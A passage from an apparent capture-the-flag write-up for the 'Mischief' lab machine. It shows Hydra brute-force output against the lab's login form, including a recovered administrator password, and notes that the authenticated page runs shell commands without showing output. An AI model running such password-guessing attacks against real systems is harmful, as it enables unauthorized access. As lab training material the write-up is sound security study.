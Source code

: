     Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-10 08:27:06
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 22 login tries (l:11/p:2), ~2 tries per task
    [DATA] attacking http-post-form://mischief.htb:80//login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match
    [80][http-post-form] host: mischief.htb   login: administrator   password: trickeryanddeceit
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-10 08:27:10



#### Authed Site

The site after login offers a command execution. The default is
`ping -c 2 127.0.0.1`. There's also a hint that there's a file in the
homedir called "credentials".

![](/img/1531226863805.png)

When I run a command, it just tells me that it executed, no output:

![](/img/1531226890887.png)
